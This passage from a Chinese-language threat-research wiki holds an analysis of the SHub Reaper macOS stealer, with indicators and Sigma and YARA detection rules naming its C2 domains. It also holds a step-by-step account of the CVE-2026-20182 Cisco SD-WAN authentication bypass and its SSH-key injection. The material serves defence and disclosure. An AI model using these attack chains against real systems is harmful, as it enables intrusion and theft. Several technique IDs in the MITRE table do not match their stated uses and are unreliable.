- 工具调用输出（读取的源代码、shell 命令结果）进入 Ollama 堆
- 攻击者可获取：API keys、数据库凭证、专有代码

### 场景 3：多租户 SaaS
- 共享 Ollama 实例服务于多个客户
- 用户 A 的提示词可被用户 B 通过漏洞读取
- 违反数据隔离合规要求（GDPR、SOC2）

## 防御检查清单

- [ ] Ollama 版本 ≥ 修复提交（2026-02-25 后的构建）
- [ ] `OLLAMA_HOST=127.0.0.1` 或 `OLLAMA_HOST=localhost`
- [ ] 无公网 0.0.0.0 监听：`ss -tlnp | grep 11434`
- [ ] API 网关配置了认证（即使只是 HTTP Basic Auth）
- [ ] 网络层阻止对 11434 端口的入站非授权访问
- [ ] 已在 IDS/IPS 中部署上述检测规则
- [ ] 审查 `/api/push` 历史日志，确认无异常推送

## 披露时间线
- **2026-02-02**：向 Ollama 报告漏洞 
- **2026-02-25**：Ollama 确认并提供修复 PR 
- **2026-04-28**：CVE-2026-7482 由 Echo 分配 
- **2026-05-01**：CVE 正式发布 
- **2026-05-02**：Cyera 公开披露

---

## Ch12.014 SHub Reaper: macOS Stealer Spoofs Apple, Google, and Microsoft in a Single Attack Chain

> 📊 Level ⭐⭐ | 19.6KB | `entities/shub-reaper-macos-stealer-attack-chain.md`

## 核心要点

- SHub Reaper 是 SHub 窃密木马的变种，通过假冒 WeChat、Miro 等流行应用安装程序进行传播
- 攻击链在不同阶段伪装成不同可信品牌：微软域名托管载荷 → 苹果安全更新执行 → 谷歌软件更新目录持久化
- 相比早期版本，Reaper 构建增加了 AMOS 风格的文件窃取模块和分块上传功能
- 该木马建立持久化后门，每 60 秒向 C2 发送心跳，可接收远程代码执行指令

## 相关实体
- [Howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve 2026 310](https://github.com/QianJinGuo/wiki/blob/main/entities/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md)
- [Fake Job Interview Apps Drop Jobstealer Malware On Windows And Macos](https://github.com/QianJinGuo/wiki/blob/main/entities/fake-job-interview-apps-drop-jobstealer-malware-on-windows-and-macos.md)
- [Trackingtamperedchefclustersviacertificateandcodereuse](https://github.com/QianJinGuo/wiki/blob/main/entities/trackingtamperedchefclustersviacertificateandcodereuse.md)
- [Checkmarx Jenkins Plugin Compromised In New Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md)
- [Rigged Game Scarcruft Compromises Gaming Platform Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/shub-reaper-macos-stealer-attack-chain.md)

## 深度分析

### 攻击链分层伪装机制

SHub Reaper 展现出高度进化的社会工程学手法。其核心创新在于**多阶段品牌伪装**：攻击载荷托管在_typo-squatted_的 `mlcrosoft[.]co[.]com` 域名（假冒微软），执行时伪装成苹果 XProtectRemediator 安全更新，最终通过假冒谷歌软件更新机制实现持久化。这种"三可信品牌"叠加策略极大地增加了用户识别难度

相比传统 ClickFix 攻击（诱导用户复制命令到 Terminal），Reaper 采用 `applescript://` URL scheme 唤起 Script Editor，并利用 ASCII 艺术和滚动技术将恶意命令推送到可视窗口之外。这不仅绕过了 Terminal，还规避了 Apple Tahoe 26.4 对 ClickFix 攻击的缓解措施。页面层级的反分析机制（包括 console 函数覆盖、调试器循环、DevTools 检测）进一步增加了安全研究人员的分析成本

### 免杀技术演进

传统 ClickFix 攻击诱导用户复制命令到 Terminal 执行，而 Reaper 转向使用 `applescript://` URL scheme 唤起 macOS Script Editor，利用 ASCII 艺术和滚动技术将恶意命令推送到可视窗口之外

SentinelOne 此前已记录此技术用法，Jamf 后续也在类似攻击活动中文档化。页面层级的反分析机制包括：覆盖 console 函数、拦截 F12 等开发者按键、持续调试器循环使研究分析受阻。若安全研究人员绕过这些防护，单独的 `devtoolschange` 事件监听器会用俄语"Access Denied"消息（`<h1>Доступ запрещен</h1>`）覆盖页面内容

攻击链的演进体现了威胁者持续迭代以绕过系统安全机制的能力

### 地理封锁与目标筛选

Reaper 通过检查 `com.apple.HIToolbox.plist` 中的俄语输入源来识别独联体地区（CIS）用户。若检测到俄语输入源，恶意软件会向 C2 发送 `cis_blocked` 事件并退出，表明该行动可能具有地域针对性或受制裁限制

### 投递管道与环境检测

Reaper 通过多阶段执行链部署，与早期 SHub 构建一致。但本变种不使用标准的"ClickFix"社会工程学（受害者被诱骗将命令粘贴到 Terminal），而是使用绕过 Terminal 且规避 Apple Tahoe 26.4 缓解措施的投递机制

脚本存根通过查询 `com.apple.HIToolbox.plist` 文件检查受害者的区域设置以识别俄语输入源

### 数据窃取与二次攻击

窃取数据类型涵盖：浏览器凭证（Chrome、Firefox、Brave、Edge、Opera、Vivaldi、Arc、Orion）、加密货币钱包（Exodus、Atomic、Ledger Live、Electrum、Trezor Suite）、iCloud 账户、Keychain、Telegram 会话等。此外，Filegrabber 模块还会搜索桌面和文档文件夹中的商业文档（.docx、.xlsx、.json 等）

值得注意的是，完成数据外传后，木马还会尝试注入修改后的 `app.asar` 文件到受害者钱包应用中，以实现对未来交易的持续监控和资金窃取

Filegrabber 处理程序搜索用户桌面和文档文件夹中可能具有商业或财务价值的文件，针对扩展名 `.docx`、`.doc`、`.wallet`、`.key`、`.keys`、`.txt`、`.rtf`、`.csv`、`.xls`、`.xlsx`、`.json` 和 `.rdp`（2MB 以下），以及 `.png` 图像（6MB 以下），总收集上限为 150MB

收集的文件临时存储在 `/tmp/shub_<random>/`，脚本检查目录是否超过 85MB。若超过，Reaper 在 `/tmp/shub_split.sh` 生成 Bash 脚本，将存档分成 70MB ZIP 块并通过 `curl` 顺序上传到 C2 的 `hebsbsbzjsjshduxbs[.]xyz/gate/chunk` 端点

### 钱包应用劫持

恶意软件上传用户数据后，尝试入侵特定加密货币桌面钱包以拦截未来活动。脚本搜索 Exodus、Atomic Wallet、Ledger Wallet、Ledger Live 和 Trezor Suite。找到后，从 C2 服务器检索修改后的 `app.asar` 文件，终止活跃钱包进程，并替换合法的核心应用程序文件

为绕过 Gatekeeper，脚本使用 `xattr -cr` 清除隔离属性，并使用 _ad hoc_ 代码签名对修改后的应用程序包进行签名

### 持久化与后门机制

相比一次性执行的窃密木马，Reaper 在 `~/Library/LaunchAgents/com.google.keystone.agent.plist` 建立 LaunchAgent，每 60 秒执行一次心跳脚本。若 C2 返回指令，攻击者可获得任意代码执行能力，形成完整的后门通道

在终止前，AppleScript 创建一个目录结构来伪装 Google Software Update：`~/Library/Application Support/Google/GoogleUpdate.app/Contents/MacOS/`。它将名为 `GoogleUpdate` 的 Base64 解码 bash 脚本放入此目录，并使用名为 `com.google.keystone.agent.plist` 的 LaunchAgent 属性列表注册它

LaunchAgent 每 60 秒执行目标脚本 `GoogleUpdate`。该脚本作为信标，向 C2 的 `/api/bot/heartbeat` 端点发送系统详细信息。如果服务器返回 `"code"` 载荷，脚本对其进行解码，写入隐藏的 `/tmp/.c.sh` 文件，使用当前用户权限执行，然后删除该文件。这种机制为攻击者提供了持久后门以进行远程代码执行

### 反分析技术

恶意网页在被调用 AppleScript 载荷前，会对访问者进行特征分析并应用多种反分析技术。托管攻击活动的域名设计具有欺骗性，包括_typo-squatted_的 URL `mlcrosoft[.]co[.]com`

网页上的 JavaScript 收集系统和浏览器信息，包括 IP 地址、位置、WebGL 指纹数据，以及虚拟机或 VPN 的证据。脚本还枚举已安装的浏览器扩展，特别关注密码管理器（如 1Password、Bitwarden 和 LastPass）以及加密货币钱包（如 MetaMask 和 Phantom）。收集的遥测数据（包括浏览器扩展数据）通过硬编码的 Telegram Bot 发送给攻击者

### 凭证窃取流程

用户点击 Script Editor 中的"运行"后，隐藏命令检索远程 AppleScript 并执行。用户被要求提供登录密码，该密码被抓取并用于解密各种凭证，然后向用户展示误导性错误消息以分散怀疑

## 实践启示

- **警惕安装程序来源**：即使是中文界面的 WeChat、Miro 等流行应用，也应严格验证下载来源的域名真实性，注意_typo-squatted_域名（如 mlcrosoft、mlcrosoft 等变体）
- **慎用 AppleScript 执行**：当网页通过 `applescript://` 协议唤起 Script Editor 并要求点击"运行"时，应极度谨慎——合法网站几乎不会采用此方式
- **监控异常进程行为**：关注 Script Editor/osascript 的网络连接、未经预期的 LaunchAgent 创建、以及 `~/Library/Application Support/Google/` 下非谷歌官方组件的文件
- **检测加密货币钱包篡改**：钱包应用被修改后会尝试连接异常 C2，建议定期核对钱包文件的 hash 值
- **日志与端点检测**：重点监控 `/tmp/shub_*` 目录创建、`com.google.keystone.agent.plist` 持久化、以及指向 `hebsbsbzjsjshduxbs[.]xyz` 域名的网络流量

## MITRE ATT&CK 映射

| 战术 | 技术 ID | 技术名称 | 应用场景 |
|------|---------|----------|----------|
| 资源开发 | T1583.001 | 获取基础设施：域名 | typo-squatting 微软域名 `mlcrosoft[.]co[.]com` 托管载荷 |
| 初始访问 | T1184 | SSH Hijacking | 通过假冒 WeChat/Miro 安装程序诱导下载 |
| 执行 | T1059.002 | 命令和脚本解释器：AppleScript | `applescript://` URL scheme 唤起 Script Editor 执行恶意脚本 |
| 执行 | T1059.004 | 命令和脚本解释器：Unix Shell | curl 下载并执行 shell 脚本 payload |
| 持久化 | T1547.001 | 引导或登录启动项：Launch Agent | `com.google.keystone.agent.plist` 建立每 60 秒触发的持久化 |
| 权限提升 | T1548.001 | 滥用权限控制：Setuid 和 Setgid | ad hoc 代码签名绕过 Gatekeeper |
| 凭证访问 | T1056.001 | 输入捕获：键盘记录 | AppleScript 密码对话框抓取用户登录密码 |
| 凭证访问 | T1552.001 | 不安全凭证：Keychain | 窃取 macOS Keychain 中存储的凭证 |
| 凭证访问 | T1552.004 | 不安全凭证：密码管理器 | 枚举 1Password、Bitwarden、LastPass 扩展 |
| 凭证访问 | T1555.003 | 来自密码存储的凭证：浏览器 | Chrome、Firefox、Brave、Edge 等浏览器凭证 |
| 发现 | T1082 | 系统信息发现 | 检查 `com.apple.HIToolbox.plist` 识别俄语输入源（CIS 地区封锁） |
| 发现 | T1497.001 | 虚拟化/沙箱检测：系统检查 | WebGL 指纹、VM/VPN 检测、浏览器扩展枚举 |
| 横向移动 | T1550.001 | 使用备用身份验证：应用账户 | 劫持加密货币钱包应用注入恶意 `app.asar` |
| 数据窃取 | T1005 | 本地系统数据 | Filegrabber 模块窃取商业文档（.docx、.xlsx、.json 等） |
| 数据窃取 | T1041 | C2 通道外传 | 分块 ZIP 上传至 `hebsbsbzjsjshduxbs[.]xyz/gate/chunk` |
| 防检测 | T1622 | Debugger Evasion | 持续调试器循环、DevTools 检测、console 函数覆盖 |
| 防检测 | T1562.001 | 削弱防御：禁用安全工具 | 清除隔离属性 `xattr -cr` 绕过 Gatekeeper |

## 检测规则

### Sigma 规则

```yaml

# 检测 AppleScript 异常网络连接
title: AppleScript Suspicious Network Connection
logsource:
  product: macos
  service: endpoint
detection:
  selection:
    process_name:

      - 'osascript'
      - 'Script Editor'
    network_connection:
      destination|contains:

        - 'hebsbsbzjsjshduxbs'
        - 'mlcrosoft'
        - 'mlroweb'
  condition: selection

# 检测异常 LaunchAgent 创建
title: Suspicious Google Keystone LaunchAgent
logsource:
  product: macos
  service: filesystem
detection:
  selection:
    path|contains: '~/Library/LaunchAgents/com.google.keystone.agent.plist'
    process_name:

      - 'launchd'
      - 'GoogleUpdate'
  condition: selection

# 检测临时目录异常活动
title: SHub Temporary Directory Activity
logsource:
  product: macos
  service: filesystem
detection:
  selection:
    path|contains:

      - '/tmp/shub_'
      - '/tmp/shub_split.sh'
      - '/tmp/.c.sh'
  condition: selection
```

### YARA 规则

```yara
rule SHubReaper_Indicator {
  meta:
    description = "Detects SHub Reaper malware"
    author = "Security Research"
    date = "2026-05-20"
  strings:
    $s1 = "com.google.keystone.agent" ascii
    $s2 = "hebsbsbzjsjshduxbs" ascii
    $s3 = "GoogleUpdate" ascii
    $s4 = "shub_log.zip" ascii
    $s5 = "cis_blocked" ascii
    $s6 = "6552824c59ddacb134073f24a4bd4724514a938a9dc59f1733503642faed3bd3" ascii
  condition:
    3 of them
}

rule SHubReaper_C2_Communication {
  meta:
    description = "Detects SHub Reaper C2 communication pattern"
    author = "Security Research"
    date = "2026-05-20"
  strings:
    $c2_domain = "hebsbsbzjsjshduxbs.xyz" ascii
    $heartbeat_endpoint = "/api/bot/heartbeat" ascii
    $chunk_endpoint = "/gate/chunk" ascii
  condition:
    all of them
}
```

### 端点检测查询

```bash

# 检查可疑 LaunchAgent 文件
ls -la ~/Library/LaunchAgents/com.google.keystone.agent.plist

# 检查 GoogleUpdate 目录
ls -la ~/Library/Application\ Support/Google/GoogleUpdate.app/Contents/MacOS/

# 检查临时目录异常文件
ls -la /tmp/shub_*

# 检查网络连接
netstat -an | grep -E 'hebsbsbzjsjshduxbs|mlcrosoft'
```

## 技术指标

### 网络通信

| 指标 | 类型 |
|------|------|
| `hebsbsbzjsjshduxbs[.]xyz` | Primary C2 |
| `hxxps[://]hebsbsbzjsjshduxbs[.]xyz/api/debug/event` | C2 Endpoint |
| `hxxps[://]hebsbsbzjsjshduxbs[.]xyz/api/bot/heartbeat` | C2 Endpoint |
| `hxxps[://]hebsbsbzjsjshduxbs[.]xyz/gate` | C2 Endpoint |
| `qq-0732gwh22[.]com` | Fake WeChat Lure Domain |
| `mlcrosoft[.]co[.]com` | Fake WeChat Lure Domain |
| `mlroweb[.]com` | Fake Miro Lure Domain |

### 文件系统路径

| 路径 | 用途 |
|------|------|
| `~/Library/Application Support/Google/GoogleUpdate.app/Contents/MacOS/GoogleUpdate` | Backdoor Binary |
| `~/Library/LaunchAgents/com.google.keystone.agent.plist` | Persistence mechanism |
| `/tmp/shub_log.zip` | Staged exfiltration archive |
| `/tmp/shub_split.sh` | Archive splitting utility |
| `/tmp/shub_mzip_*.zip` | Segmented archive chunks |
| `/tmp/.c.sh` | Ephemeral backdoor execution script |
| `/tmp/*_asar.zip` | Downloaded wallet payloads (e.g., exodus_asar.zip, ledger_asar.zip) |

### 静态字符串与标识符

| 标识符 | 值 |
|--------|-----|
| Build ID | `6552824c59ddacb134073f24a4bd4724514a938a9dc59f1733503642faed3bd3` |
| Build Name | `Reaper` |
| Hardcoded Build Hash | `c917fcf8314228862571f80c9e4a871e` |

## 威胁归因与演化

### SHub 恶意软件家族演化

SHub Reaper 是 SHub 窃密木马的最新变种，其演化路径体现了 macOS 恶意软件的典型发展模式：

| 版本/变种 | 主要功能 | 特征 |
|-----------|----------|------|
| **早期 SHub** | 基础信息窃取 | 浏览器凭证、Keychain、Telegram 会话 |
| **ClickFix 阶段** | 社会工程投递 | 诱导用户复制命令到 Terminal 执行 |
| **SHub Reaper** | 多阶段品牌伪装 + 持久后门 | applescript:// 绕过 + 加密货币钱包劫持 + 分块上传 |

### 相关 macOS 窃密木马

| 家族 | 特征 | 与 SHub 的关系 |
|------|------|----------------|
| **Atomic macOS Stealer (AMOS)** | 文件窃取模块、分块上传 | Reaper 借鉴了其 Filegrabber 和分块上传机制 |
| **Poseidon** | macOS 凭证窃取 | 同为 macOS 窃密木马家族 |
| **JOCK** | macOS 钓鱼即服务 | 使用类似的社会工程技术 |

## 结论

Reaper 构建表明 SHub 运营者正在将恶意软件扩展到直接的凭证和钱包盗窃之外。除了 AMOS 风格的 Filegrabber 和分块上传外，该变种还安装了持久后门，为攻击者在初始入侵后提供了更多窃取数据或转向其他恶意安装的方式

攻击链在多个阶段叠加熟悉品牌和可信软件提示的方式值得警惕：虚假的 WeChat 或 Miro 安装程序、从_typo-squatted_微软域名投递、伪装成苹果安全更新执行、以及隐藏在虚假谷歌软件更新路径中的持久化

对于防御者而言，这种组合强化了监控恶意行为的必要性，例如意外的 AppleScript 或 osascript 活动、Script Editor 执行后的可疑出站流量、或在可信供应商关联的名称空间中意外创建 LaunchAgent 或相关文件

---

## Ch12.015 Resecurity | CVE-2026-20182: Unauthenticated Cisco SD-WAN Control-Plane Compromise via vHub Authentication Bypass

> 📊 Level ⭐⭐ | 18.2KB | `entities/cve-2026-20182-unauthenticated-cisco-sd-wan-control-plane-compromise-via-vhub-au.md`

# CVE-2026-20182: Unauthenticated Cisco SD-WAN Control-Plane Compromise via vHub Authentication Bypass

> 来源：[原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cve-2026-20182-unauthenticated-cisco-sd-wan-control-plane-compromise-via-vhub-au.md)

## 概述

CVE-2026-20182 是影响 Cisco Catalyst SD-WAN 控制器的严重身份验证绕过漏洞，CVSS 评分高达 **10.0**（严重）。漏洞存在于 vdaemon 服务中，位于 `vbond_proc_challenge_ack()` 函数内——当对等方声明自身为 vHub（device_type = 2）时，完全跳过证书验证和信任验证逻辑。由于 CHALLENGE_ACK 消息在认证完成前就被处理，攻击者可远程利用此路径，无需任何有效凭证或受信任证书即可成为可信 SD-WAN 基础设施成员。

此漏洞由 Rapid7 安全研究员 **Jonah Burgess** 和 **Stephen Fewer** 发现并披露，属于独立于任何先前修复的全新缺陷。

## Cisco Catalyst SD-WAN 架构背景

Cisco Catalyst SD-WAN 是思科的软件定义广域网平台，通过集中式软件控制器管理分支办公室、数据中心、云环境和远程用户之间的连接性。与依赖手动路由器配置和昂贵 MPLS 电路的传统 WAN 架构不同，Catalyst SD-WAN 使用 SD-WAN 控制器自动化路由、安全和流量管理。

平台核心组件包括：

- **vManage** — 集中管理仪表板，用于配置和监控 SD-WAN 网络结构
- **vSmart** — 控制平面控制器，负责路由智能和策略分发
- **vBond** — 编排服务，负责 SD-WAN 设备的认证和入网
- **WAN Edge 路由器** — 部署在分支位置和云环境的物理或虚拟路由器

由于 SD-WAN 控制器管理路由策略、分段、信任关系和设备入网，它们实际上充当企业网络的"大脑"。因此，影响这些控制器的漏洞被认为高度严重。

## 漏洞根因分析

漏洞位于 **vdaemon** 服务（负责 SD-WAN 控制平面安全通信的核心组件），该服务使用 DTLS（数据报传输层安全）通过 UDP 端口 12346 进行通信。

### DTLS 认证流程中的缺陷

DTLS 握手完成（错误地接受任意或不受信任的客户端证书）后，vdaemon 服务发送包含 256 随机字节的 CHALLENGE 消息及多个 TLV 结构。客户端需响应 CHALLENGE_ACK 消息，漏洞就在处理此数据包的 `vbond_proc_challenge_ack()` 函数中。

该函数执行设备类型特定的证书验证逻辑，但当连接对等方标识自身为 vHub 设备（device_type = 2）时，预期执行的证书验证路径被完全跳过，导致未认证对等方成为可信 SD-WAN 控制平面参与者。

### vdaemon 消息类型验证缺失

在 `vdaemon!vbond_proc_msg()` 中存在预认证白名单，允许以下消息类型在认证前处理：

| 消息类型 | 说明 |
|----------|------|
| 5 | HELLO |
| 7 | DATA |
| 8 | CHALLENGE |
| 9 | **CHALLENGE_ACK** ← 可达漏洞函数 |
| 10 | CHALLENGE_ACK_ACK |
| 11 | NEW_CHALLENGE_ACK |

关键在于 **CHALLENGE_ACK = 消息类型 9** 被明确包含在此白名单中，这意味着未认证攻击者可直接发送 CHALLENGE_ACK 数据包并到达 `vbond_proc_challenge_ack()`，而无需先建立信任。

### 各设备类型验证对比

| 设备类型 | 值 | 验证执行 | 结果 |
|----------|-----|----------|------|
| vEdge | 1 | 硬件/虚拟边缘证书验证、TPM 验证、challenge-response 签名验证、board-ID 检查、OTP 验证 | 认证前验证 |
| **vHub** | **2** | **无验证执行** | **直接到达 peer->authenticated = 1** |
| vSmart | 3 | 证书链验证、序列号查重、重复对等方检查、DTLS 对等证书验证 | 认证前验证 |
| vBond | 4 | 通过单独逻辑路径处理 | 在其他地方验证 |
| vManage | 5 | 证书链验证、序列号查重、重复对等方检查、DTLS 对等证书验证 | 认证前验证 |

vHub（device_type == 2）完全缺少验证路径，导致无验证即直接到达 `peer->authenticated = 1;` 这一无条件认证赋值。

## 受影响产品与部署

CVE-2026-20182 影响：

- Cisco Catalyst SD-WAN Controller
- Cisco Catalyst SD-WAN Manager

漏洞影响所有主要 SD-WAN 部署模式：

| 部署类型 | 是否受影响 |
|----------|-----------|
| 本地部署 | 是 |
| Cisco SD-WAN Cloud-Pro | 是 |
| Cisco SD-WAN Cloud（思科托管）| 是 |
| Cisco SD-WAN for Government (FedRAMP) | 是 |

由于漏洞影响认证机制本身而非特定可选功能或配置，任何暴露的易受攻击 SD-WAN 控制器都可能遭受未认证远程利用。

## 利用过程与攻击链

### 攻击步骤

1. **DTLS 握手初始化**：攻击者使用任意或无效证书向 Cisco vSmart 控制器上的 UDP/12346 发起 DTLS 连接
2. **收到 CHALLENGE**：即使证书验证内部失败，vdaemon 服务仍错误地继续认证流程，发送包含随机挑战数据的 CHALLENGE 消息（msg_type=8）
3. **发送伪造 CHALLENGE_ACK**：攻击者回复 CHALLENGE_ACK（msg_type=9）同时设置 `device_type = 2`，触发跳过关键验证检查的逻辑路径
4. **认证状态设置**：控制器发送 CHALLENGE_ACK_ACK（msg_type=10）并在内部将恶意对等方标记为已认证：`peer->authenticated = 1;`
5. **认证 Hello 交换**：攻击者发送 Hello 消息（msg_type=5），由于对等方现已被视为已认证，控制器接受连接并将对等方状态转为 `new-state: up`
6. **恶意对等方成功加入 SD-WAN 网络结构**：攻击者现被视为合法 SD-WAN 控制平面对等方，可与 vSmart 控制器交换路由、编排和策略消息

### 利用后利用：SSH 密钥注入

成功利用身份验证绕过并使恶意对等方转入 UP 状态后，攻击者获得对已认证 SD-WAN 控制平面消息处理程序的访问权。最危险的后利用原语之一是通过 `MSG_VMANAGE_TO_PEER`（消息类型 14）持久注入 SSH 密钥。

`vdaemon!vbond_proc_vmanage_to_peer()` 处理程序直接向 `vmanage-admin` 账户的 `authorized_keys` 文件追加攻击者控制的 SSH 公钥，使用 `"a+"` 追加模式，无任何清理、过滤或验证。

由于 vmanage-admin 是用于 vManage、vSmart 和 vBond 之间自动化通信的内部高权限服务账户，此原语将身份验证绕过从瞬态控制平面入侵转化为对 SD-WAN 基础设施的持久性、无凭证特权访问。

## Metasploit 利用模块

Rapid7 为 CVE-2026-20182 开发了 Metasploit 辅助模块 `auxiliary/admin/networking/cisco_sdwan_vhub_auth_bypass`，自动化完整身份验证绕过和后认证访问工作流程，包括：

- 使用自签名证书执行 DTLS 握手
- 作为 vHub 发送伪造 CHALLENGE_ACK 数据包
- 绕过 SD-WAN 认证
- 将恶意对等方转入 UP 状态
- 向 `vmanage-admin/.ssh/authorized_keys` 注入攻击者控制的 SSH 公钥
- 建立对 SD-WAN 控制器的持久特权访问
- 提供对 TCP/830 NETCONF 管理服务的访问

模块在 Cisco Catalyst SD-WAN Controller 20.12.6.1 上成功测试，漏洞检测和利用均完成。

## 安全影响

CVE-2026-20182 的成功利用可能导致：

- **身份验证绕过**：远程攻击者可绕过 SD-WAN 认证，无需有效凭证或受信任思科证书
- **未授权控制平面访问**：攻击者可通过滥用 vHub 认证路径以可信对等方身份加入 SD-WAN 控制平面
- **网络流量操纵**：恶意行为者可修改路由行为、重定向流量或在 SD-WAN 网络结构上操纵 WAN 编排策略
- **通信拦截**：被入侵的控制器可能允许攻击者监控、拦截或重路由分支、云环境和数据中心之间的敏感企业流量
- **持久性 SSH 访问**：攻击者可向特权 vmanage-admin 账户注入任意 SSH 公钥，实现长期无凭证访问
- **大规模服务中断**：未授权配置更改或编排滥用可能导致网络不稳定、分段失败或企业范围中断
- **完整 SD-WAN 网络结构入侵**：由于 vSmart 控制器编排路由、信任关系和设备入网，成功利用可能导致整个企业 SD-WAN 基础设施入侵

## 修复与响应

思科已发布解决 CVE-2026-20182 的软件更新。根据思科，目前**没有可用的变通方案**或配置型缓解措施可完全防止此漏洞利用。由于问题存在于 SD-WAN 认证逻辑本身，升级到修复软件版本是唯一有效的修复方法。

### 首个修复版本

| SD-WAN 版本 | 首个修复版本 |
|-------------|-------------|
| 早于 20.9 | 迁移到支持的修复版本 |
| 20.9 | 20.9.9.1 |
| 20.10 | 20.12.7.1 |
| 20.11 | 20.12.7.1 |
| 20.12 | 20.12.5.4 / 20.12.6.2 / 20.12.7.1 |
| 20.13 | 20.15.5.2 |
| 20.14 | 20.15.5.2 |
| 20.15 | 20.15.4.4 / 20.15.5.2 |
| 20.16 | 20.18.2.2 |
| 20.18 | 20.18.2.2 |
| 26.1.1 | 26.1.1.1 |

### 事件响应建议

由于成功利用会导致已认证 SD-WAN 控制平面访问，防御者应假设暴露在互联网的系统可能已被入侵：

1. **立即升级** — 尽快将所有外部可达的 vSmart、vBond 和 vManage 控制器升级至修复版本
2. **审查 DTLS 和认证日志** — 检查意外 DTLS 连接、未知对等方标识、可疑 CHALLENGE_ACK 活动和异常对等方状态转换
3. **审计授权 SSH 密钥** — 检查 `/home/vmanage-admin/.ssh/authorized_keys` 中是否存在未知公钥、最近追加的条目或可疑自动化痕迹
4. **调查控制平面对等方** — 审查活动 SD-WAN 对等方、对等方序列号、控制器关系和意外 vHub 对等方，以发现潜在恶意控制平面注册
5. **轮换凭证和信任材料** — 如怀疑已被入侵，轮换 SSH 密钥、重生成证书、轮换 API 凭证，重新建立 SD-WAN 信任关系
6. **保存取证证据** — 在修补被入侵系统之前，收集控制器日志、DTLS 会话数据、内存捕获、SD-WAN 配置快照和 SSH authorized_keys 历史

## 深度分析

CVE-2026-20182 的漏洞根因植于 Cisco SD-WAN 认证架构中的**设备类型分支遗漏**。在 `vbond_proc_challenge_ack()` 函数中，每种设备类型（vEdge=1、vSmart=3、vManage=5）都有明确的证书验证路径，唯独 vHub（device_type=2）被完全跳过——既无证书链验证、无序列号查重、无硬件身份验证，直接贯穿至 `peer->authenticated = 1`。

**三重致命设计失误叠加使此漏洞尤为严重：**

1. **DTLS 握手接受任意证书**：vdaemon 在 DTLS 握手阶段错误地接受任意或不受信任的客户端证书，导致握手完成并进入 CHALLENGE 阶段，为后续攻击打开入口
2. **预认证白名单包含 CHALLENGE_ACK**：在 `vdaemon!vbond_proc_msg()` 中，消息类型 9（CHALLENGE_ACK）被明确列入预认证白名单，允许未认证对等方直接发送至漏洞函数，绕过了"先认证后通信"的基本安全原则
3. **vHub 验证路径完全缺失**：代码审查显示 vHub 设备类型的验证块从未被实现——不是被注释掉，不是条件遗漏，而是从一开始就不存在

**CVSS 10.0 的合理性**：该评分并非过度渲染。从攻击向量看，攻击者仅需发送 UDP 数据包至 UDP/12346，无需任何前期侦察或凭证；从影响范围看，一旦成为"已认证"对等方，即可注入 SSH 密钥、建立 NETCONF 会话、操纵路由策略、重定向流量；从利用确定性看，Metasploit 模块已在 20.12.6.1 版本上成功验证，exploitation 近乎 100% 可靠。

**SSH 密钥注入原语的深远影响**：通过 MSG_VMANAGE_TO_PEER（消息类型 14）注入 SSH 密钥的能力将单次攻击转化为持久性控制。`vmanage-admin` 是 vManage、vSmart、vBond 间自动化通信的高权限服务账户，攻击者获取其 SSH 公钥访问权限后，可长期无凭证维持存在，且不干扰合法管理员使用——追加模式而非覆盖。

## 实践启示

**立即行动项（72 小时内）：**

- 识别所有暴露在互联网的 vSmart、vBond、vManage 控制器——UDP/12346 是否可直接访问
- 对暴露的控制器执行紧急补丁升级，优先升级 20.9 以下已停止支持的版本
- 检查 DTLS 日志中是否存在来自不可信 IP 的 CHALLENGE_ACK 请求和异常对等方状态转换

**中期加固（1-2 周）：**

- 审计所有 `/home/vmanage-admin/.ssh/authorized_keys` 文件内容，与基线对比，删除任何非预期公钥
- 建立 SD-WAN 控制器的入站 DTLS 连接监控基线，未来任何偏离均触发告警
- 将 SD-WAN 控制平面管理接口与常规业务网络隔离，采用独立管理 VLAN 或带外网络

**架构层面反思：**

- vHub 验证路径的缺失暗示思科在设计 SD-WAN 认证体系时可能未对所有设备类型进行完整的安全评审——这是一个系统性风险，而非单点实现错误
- DTLS 预认证消息类型的白名单设计本身存在争议：CHALLENGE_ACK 在认证完成前被处理是协议设计的一部分（因为认证握手本身需要交换 CHALLENGE_ACK），但这意味着验证逻辑的完整性至关重要，任何遗漏都会直接暴露
- 考虑到 SD-WAN 控制器是网络的"大脑"，应将其纳入零信任架构边界——不应依赖单一认证机制，而应叠加网络层访问控制、异常行为检测等多层防御

## 相关实体
- [Cve 2026 20182 Cisco Sd Wan Vhub Bypass](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-cisco-sd-wan-vhub-bypass.md)
- [Http2 Hpack Bomb Codex Ai Discovery 32Gb Dos](https://github.com/QianJinGuo/wiki/blob/main/entities/http2-hpack-bomb-codex-ai-discovery-32gb-dos.md)
- [Claw Chain Cyera Research Unveil Four Chainable Vulnerabilities In Openclaw](https://github.com/QianJinGuo/wiki/blob/main/entities/claw-chain-cyera-research-unveil-four-chainable-vulnerabilities-in-openclaw.md)
- [Howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve 2026 310](https://github.com/QianJinGuo/wiki/blob/main/entities/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md)
- [Bullyingllms](https://github.com/QianJinGuo/wiki/blob/main/entities/bullyingllms.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cve-2026-20182-unauthenticated-cisco-sd-wan-control-plane-compromise-via-vhub-au.md)

---

## Ch12.016 LLMReaper - DOM Based AI Conversation Exfiltration via Browser Extensions

> 📊 Level ⭐⭐ | 18.1KB | `entities/llmreaper-dom-based-ai-conversation-exfiltration-via-browser.md`

# LLMReaper - DOM Based AI Conversation Exfiltration via Browser Extensions

> **来源**: [原文链接](https://thewhiteh4t.github.io/blog/ai-chat-llmreaper/)

## 核心发现

